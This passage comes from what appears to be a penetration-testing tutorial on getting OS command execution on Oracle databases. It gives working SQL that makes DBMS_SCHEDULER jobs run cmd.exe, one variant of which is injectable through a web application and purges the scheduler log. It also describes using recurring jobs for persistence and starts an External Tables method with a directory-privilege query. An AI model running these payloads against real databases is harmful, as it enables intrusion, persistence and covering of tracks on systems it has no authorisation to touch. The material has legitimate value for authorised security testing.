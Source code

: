 ## RCE: Scheduler

The next method, which will help us if there is no Java virtual machine, is to use ‘dbmsscheduler’, the built-in task scheduler of Oracle. To use it, you must have the privilege ‘CREATE EXTERNAL JOB’. Here’s a code sample that implements the entry of ‘0wned’ string into a text file in the root of the C: drive:

```sql
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```

This will create and run a job for executing your command. And here’s an option for calling the Scheduler from another procedure – `SYS.KUPP$PROC.CREATE_MASTER_PROCESS`, which is of interest to us, primarily, because it allows you to embed multi-statement queries, that is, those consisting of multiple sub-queries. Theoretically, you can run such query even in case of injection into a web application.

```sql
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```

Note that, when you use the Scheduler, you can run this job more than once and do it with some frequency. As a result, this will help you get a foothold in the tested system, because, even if the administrator deletes the user from OS, this job, which is regularly running in the system, will bring him or her back to life.

## RCE: External Tables

As the last method for achieving the execution of OS commands, I would like to mention the use of External Tables. This method will help you later download files from the server. You will need the following privileges:

```bash
UTL_FILE;
CREATE TABLE;
a directory reserved for the user.
```

Let’s remember that the access to `UTL_FILE` package is by default provided to all accounts with `CONNECT` role. 

Step one: Check the issued directories with the following query:

```sql
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;
 
TABLE_NAME
------------------------------
ALICE_DIR
```
